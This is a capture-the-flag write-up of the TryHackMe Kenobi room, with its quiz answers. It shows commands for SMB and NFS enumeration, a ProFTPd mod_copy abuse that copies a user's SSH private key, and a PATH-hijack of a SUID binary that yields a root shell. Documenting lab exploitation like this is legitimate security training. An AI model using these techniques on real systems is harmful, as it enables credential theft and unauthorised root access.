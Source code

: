 # Tryhackme - [Kenobi](https://tryhackme.com/room/kenobi) 
Written on 19/12/2021



## Nmap
I did a pretty thorough nmap scan on the top common ports
```
sudo nmap -vv -sT -T3 -O -sV -sC --top-ports 1024 -oN nmap.txt 10.10.234.224
```

Here are the results, we can see there are 7 open ports.

![](./images/kenobi1.png)

> Scan the machine with nmap, how many ports are open?

Answer: 7

I also ran the command that the room suggested:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.234.224
```

Here are those results:

![](./images/kenobi2.png)

We see there are 3 shares, IPC, print and anonymous

> Using the nmap command above, how many shares have been found?

Answer: 3


## Smbclient
I connected to the anonymous share, supplying no password when prompted(pressing enter)

```
smbclient //10.10.234.224/anonymous
```

![](./images/kenobi3.png)

Seems I can't print out log.txt

![](./images/kenobi4.png)

> Once you're connected, list the files on the share. What is the file can you see?

Answer: log.txt

I used smbget like the room instructed to download the file instead

```
smbget -R smb://10.10.234.224/anonymous
```

![](./images/kenobi5.png)

log.txt turned out to be pretty big, there was info about:

- The kenobi user's ssh key generation:

![](./images/kenobi6.png)

- The FTP server configuration, anonymous access is allowed:

![](./images/kenobi7.png)

> What port is FTP running on?

Answer: 21


## Enumerating NFS
I used the nmap command provided by the room to enumerate the NFS on port 111 
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.234.224 > nfsnmap.txt
```

![](./images/kenobi8.png)

> What mount can we see?

Answer: /var


## ProFtpd
I connected to the FTP server using the ftp command instead of netcat:

```
ftp 10.10.234.224
```

![](./images/kenobi9.png)

There's the version, this was also visible in our nmap scan

> What is the version?

Answer: 1.3.5

I used searchsploit to search for a vulnerability on this version:
```
searchsploit proftpd 1.3.5
```

![](./images/kenobi10.png)

> How many exploits are there for the ProFTPd running?

Answer: 4

As the room suggets, we can use the vulnerable mod_copy module commands **SITE CPFR** and **SITE CPTO** as an unauthenticated user to get the ftp server to copy files to our desired location

So we are going to use this to copy kenobi's ssh private key. I think there are multiple locations we could access this from, one is suggested by the room(the NFS anonymous mount point /var).

I tried to get it on webserver that was running on port 80 that I found with nmap, but I got a permission denied message

It should be noted that using the ftp client for these commands doesn't work, as you are actually authenticated when using it

So I used the suggested option of copying the id_rsa key to /var/tmp

```
nc 10.10.234.224
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/privatekey
```

Then I mounted the NFS on my local machine:

```
mkdir nfs
sudo mount 10.10.234.224:/var ./nfs
```

And used kenobi's private key to login via ssh:
```
cd nfs/tmp 
cp privatekey ../../ && cd ../../ && chmod 600 privatekey
ssh -i privatekey kenobi@10.10.234.224
```

![](./images/kenobi11.png)

And got the user flag:

![](./images/kenobi12.png)


## Privilege escalation
Now to try and get root. The room suggests using an SUID binary, so I searched for those with the command provided

```
find / -perm -u=s -type f 2>/dev/null
```

![](./images/kenobi13.png)

The one that looked weird was /usr/bin/menu as I had no idea what that might be

> What file looks particularly out of the ordinary?

Answer: /usr/bin/menu

Running menu:

![](./images/kenobi14.png)

> Run the binary, how many options appear?

Answer: 3

The commands seem pretty non-vulnerable, however, if we run strings on the binary:

```
strings /usr/bin/menu
```

![](./images/kenobi15.png)

We can see that:
1. The file is owned by root, with the SUID bit set, so it is running as root
2. It references the 3 commands, curl, uname and ifconfig
3. But it doesn't call them by their absolute path

If we look at kenobi's PATH variable:

```
echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
We see that it checks /home/kenobi/bin first

We can write our own, fake curl(or ifconfig or uname) executable in /home/kenobi/bin, and when we run menu(which runs with root privileges) it will execute our malicious binary instead.

I used vi to write a simple script that just spawned a bash shell, then used the menu binary:

```
The fake ifconfig:

#!/bin/sh

/bin/bash -p
```

![](./images/kenobi16.png)


Now we can get that root flag!

![](./images/kenobi17.png)


## Conclusion
The room was pretty easy and straight-forward, which is expected as it's supposed to be a walkthrough. Jumping from using one service to another in order to gain root on the machine was interesting.


